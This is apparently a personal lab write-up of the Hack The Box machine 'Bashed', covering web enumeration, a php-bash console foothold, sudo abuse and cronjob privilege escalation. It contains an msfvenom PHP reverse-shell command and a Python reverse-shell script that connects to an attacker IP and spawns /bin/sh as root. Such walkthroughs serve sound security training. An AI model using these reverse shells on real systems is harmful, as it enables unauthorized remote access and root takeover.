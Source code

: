 ```yaml
---
tags:
  - php
  - cronjob
---
```

# HTB: Bashed

***Overview**: Bashed is an easy rated HTB machine that exploits a web facing php-bash console to gain compromised access and then exploits a cronjob running to gain a reverse shell as the root user.*
## Scanning and Enumeration

- So conducting a port scan and also a service scan, we can see that that we have an Apache server running on port 80

![](assets/Bashed_assets/Pasted%20image%2020231112203648.png)

- So navigating to the web server, we are brought to this

![](assets/Bashed_assets/Pasted%20image%2020231112202640.png)

- So conducting a directory scan using FFUF, we are brought to the following

![](assets/Bashed_assets/Pasted%20image%2020231112204345.png)

- as we can see above there is a directory dev, so navigating to it we are brought to what looks like a console, we can run ls and view the files on the server

![](assets/Bashed_assets/Pasted%20image%2020231112204428.png)

## Exploitation and Foothold

- So first we will generate a reverse shell PHP payload using msfvenom

```shell
msfvenom -p php/reverse_php lhost=10.10.14.7 lport=4444 -f raw > rev_shell.php
```

- then we can retrieve that payload to the server  and make it executable

![](assets/Bashed_assets/Pasted%20image%2020231112205909.png)

- then we can execute the payload with the command

```shell
php rev_shell.php
```

- and we get a reverse meterpreter shell

![](assets/Bashed_assets/Pasted%20image%2020231112205933.png)

- So we can retrieve the user flag

![](assets/Bashed_assets/Pasted%20image%2020231112210102.png)
## Post Exploitation: Privilege Escalation

- so we can view our passwd file and we'll see that er also have other users arrexel and scriptmanager

![](assets/Bashed_assets/Pasted%20image%2020231112210221.png)

- if we run our `sudo -l` command, we will see that we can execute any command as scriptmanager using sudo

![](assets/Bashed_assets/Pasted%20image%2020231112210304.png)

- so we can get a shell by running

```shell
sudo -u scriptmanager bash -i
```

![](assets/Bashed_assets/Pasted%20image%2020231112215553.png)

- we have access as scriptmanager, we can see that we have a directory scripts in the root directory and we have ownership over that directory. We can also view it and we can see we have access to a test.py script and a test.txt file, and what the test.py script is doing is it is open a file and then write that content in it

![](assets/Bashed_assets/Pasted%20image%2020231112215851.png)

- After looking at the time of execution or hen it was last accessed, we decided to conclude that it was probably a cronjob that was running that executes all the scripts in the scripts directory
- so to test this, we created a script, example.py and what it does is to open a file as well and write in text into the file like test.py

![](assets/Bashed_assets/Pasted%20image%2020231112220958.png)

- after doing this and waiting a couple minutes we saw that the example.txt file was created and we can also see the timing and notice that the file was actually created as root and this is because the cronjob was running as root

![](assets/Bashed_assets/Pasted%20image%2020231112220936.png)

 ![](assets/Bashed_assets/Pasted%20image%2020231112221024.png)

- so to get a reverse shell as root, lets create a python script with the following content and name it exploit.py

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```

- we can tell that the script has been run from when the test.txt file was created/modified last

![](assets/Bashed_assets/Pasted%20image%2020231112222919.png)

- In our netcat listener, we then obtain a shell as root

![](assets/Bashed_assets/Pasted%20image%2020231112223004.png)

- now we can view the root.txt file

![](assets/Bashed_assets/Pasted%20image%2020231112223211.png)

- and if we verify, we can see that yes there was a crontab running and it was executing all python scripts in that directory

![](assets/Bashed_assets/Pasted%20image%2020231112223445.png)
